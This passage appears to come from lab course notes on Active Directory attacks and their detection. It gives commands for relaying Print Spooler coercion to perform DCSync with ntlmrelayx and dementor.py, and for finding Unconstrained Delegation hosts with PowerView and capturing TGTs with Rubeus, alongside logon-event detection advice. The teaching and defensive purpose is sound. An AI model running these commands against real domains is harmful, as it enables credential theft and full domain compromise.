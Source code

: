 *Detection*: If a mature organization uses Privileged Access Workstations (PAWs), they should be alert to any privileged users not authenticating from those machines, proactively monitoring events with the ID 4624 (successful logon).

## Print Spooler & NTLM Relaying
In this attack path, we will relay the connection to another DC and perform DCSync (i.e., the first compromise technique listed). For the attack to succeed, SMB Signing on Domain Controllers must be turned off.

Steps:
1.To begin, we will configure [NTLMRelayx](https://github.com/dirkjanm/PKINITtools/tree/master) to forward any connections to DC2 and attempt to perform the DCSync attack:

`impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support`

2.Next, we need to trigger the PrinterBug using the Kali box with NTLMRelayx listening. To trigger the connection back, we'll use [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) (when running from a non-domain joined machine, any authenticated user credentials are required):

`python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123`

*Detection*:Exploiting the PrinterBug will leave traces of network connections toward the Domain Controller; however, they are too generic to be used as a detection mechanism.

In the case of using NTLMRelayx to perform DCSync, no event ID 4662 is generated (as mentioned in the DCSync section); however, to obtain the hashes as DC1 from DC2, there will be a successful logon event for DC1. This event originates from the IP address of the Kali machine, not the Domain Controller.

## Coercing Attacks & Unconstrained Delegation
Assuming that an attacker has gained administrative rights on a server configured for Unconstrained Delegation. We will use this server to capture the TGT, while Coercer will be executed from the Kali machine.

To identify systems configured for Unconstrained Delegation, we can use the Get-NetComputer function from [PowerView](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView) along with the -Unconstrained switch:

```Powershell
PS C:\Users\bob\Downloads> Get-NetComputer -Unconstrained | select samaccountname
```

Identify accounts trusted for Unconstrained delegation (Domain Controllers are trusted by default). They would be a target for an adversary. In our scenario, we have already compromised WS001 and 'Bob', who has administrative rights on this host. We will start Rubeus in an administrative prompt to monitor for new logons and extract TGTs:

```Powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe monitor /interval:1
```

Next, we need to know the IP address of WS001, which we can be obtain by running ipconfig. Once known, we will switch to the Kali machine to execute [Coercer](https://github.com/p0dalirius/Coercer) towards DC1, while we force it to connect to WS001 if coercing is successful:
